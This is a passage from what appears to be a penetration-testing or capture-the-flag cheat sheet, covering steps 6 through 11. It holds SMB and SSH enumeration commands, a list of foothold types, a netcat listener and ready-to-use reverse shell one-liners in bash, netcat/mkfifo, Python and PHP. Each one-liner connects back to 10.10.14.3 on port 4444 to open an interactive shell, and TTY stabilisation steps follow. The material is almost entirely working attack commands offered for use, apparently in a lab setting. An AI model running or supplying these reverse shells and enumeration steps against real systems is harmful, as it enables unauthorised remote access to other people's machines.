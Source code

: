 6) SMB enumeration (if 139/445 open)
```
# NSE scripts
nmap -p139,445 --script smb-enum-shares,smb-enum-users,smb-os-discovery -oA scans/smb $TARGET

# List shares (no password)
smbclient -L "//$TARGET/" -N

# Connect to share
# smbclient "//$TARGET/sharename" -N
```

7) SSH checks (22)
```
# Verbose connection to learn auth methods
ssh -v user@$TARGET

# If creds discovered, try SSH
# ssh user@$TARGET
```

8) Identify footholds
- HTTP uploads/RCE, default creds, FTP-to-web-path write, SMB writable share, leaked SSH keys/config creds, known vulns in app banner.

9) Reverse shell listener (before triggering any RCE)
```
# Reliable listener with readline support
rlwrap -cAr nc -lvnp $LPORT
```

10) Reverse shell one-liners (trigger from vulnerable input, webshell, or command injection)
Replace LHOST/LPORT inline with actual IP/port.

- Bash
```
bash -c 'bash -i >& /dev/tcp/10.10.14.3/4444 0>&1'
```

- Netcat (mkfifo fallback)
```
mkfifo /tmp/p; /bin/sh -i < /tmp/p 2>&1 | nc 10.10.14.3 4444 > /tmp/p
```

- Python3
```
python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("10.10.14.3",4444));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/bash")'
```

- PHP
```
php -r '$s=fsockopen("10.10.14.3",4444);exec("/bin/sh -i <&3 >&3 2>&3");'
```

11) Stabilize TTY
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
stty rows 50 columns 120
```
